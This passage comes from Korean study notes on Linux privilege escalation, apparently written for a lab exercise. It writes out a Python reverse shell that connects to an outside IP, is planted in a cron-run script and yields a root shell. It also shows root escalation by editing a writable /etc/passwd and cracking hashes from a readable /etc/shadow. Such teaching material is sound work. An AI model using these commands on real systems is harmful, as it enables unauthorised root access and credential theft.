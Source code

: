 ③ 타겟 머신에서 악성 스크립트 삽입 - ⚠️주의.echo 사용 시 큰따옴표(") 안에는 작은따옴표(')를 써야함
```
echo "import sys,socket,os,pty;s=socket.socket();s.connect(('10.8.1.37',9001));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('sh')" > /tmp/onetime-backup.py
```

4. **1분 대기 후 크론 잡 실행 → 리버스 쉘 연결됨**
    ```
    whoami
    ```
    - 출력:  
      ```
      root
      ```
    - 즉, **root 권한의 셸** 획득

---
# 🛡️ /etc/passwd 이용한 권한 상승


**취약/정상 /etc/passwd** 
`cat /etc/passwd`: -rw-rw-rw- 1 root shadow(666) - ❗️취약: 모든 사용자가 읽고 쓸 수 있음
`cat /etc/passwd`: -rw-r--r-- 1 root shadow(644) - ✅ 정상: 모든 사용자가 읽을 수 있으나 root만 쓸 수 있음
-> 일반 사용자도 /etc/passwd 를 수정할 수 있으므로, 계정 정보를 변경하여 권한 상승이 가능함.

📌 **/etc/passwd 파일을 수정하여 권한 상승하는 법**
- 기존 low 계정의 라인
 - low:x:1001:1001::/low:/bin/bash
- 수정된 라인 (root UID, GID로 변경)
 - low:x:0:0:root:/root:/bin/bash
➡ 재로그인하면, low 계정이 UID 0, GID 0 (root 권한)을 가지므로, root 쉘을 획득


# 🛡️ /etc/passwd&shadow 이용한 계정 탈취
**취약/정상 /etc/shadow**
/etc/shadow: -rw-rw-r-- 1 root shadow(664) - ❗️취약: 누구나 읽을 수 있음, root와 shadow 그룹만 쓸 수 있음
/etc/shadow: -rw-r----- 1 root shadow(640) - ✅ 정상: root와 shadow 그룹만 읽을 수 있고, root만 쓸 수 있음
-> shadow 파일이 읽을 수 있다면, 암호 해시 탈취 및 크래킹 가능.

**🔍 shadow 파일의 구조 및 분석**
예시)
-> root:$6$sqaU2Vb2$KTYPtEjmcGIqgnzHA84rRr1O4/rdp.9BwJKTjhd.TxNzEsiEXb0YhCRNZMVw.CgXi98PnKhzlW00QDHJhDE9o0:19613:0:99999:7:::

여기서 $로 구분된 첫 번째 숫자가 암호화 알고리즘을 의미합니다.

| 식별자    | 알고리즘                      |
| ------ | ------------------------- |
| `$1$`  | MD5-crypt                 |
| `$2a$` | Blowfish                  |
| `$5$`  | SHA-256                   |
| `$6$`  | SHA-512 (보통 root 계정에 사용됨) |
따라서 현재 root 계정은 SHA-512 알고리즘으로 암호화 중임을 확인
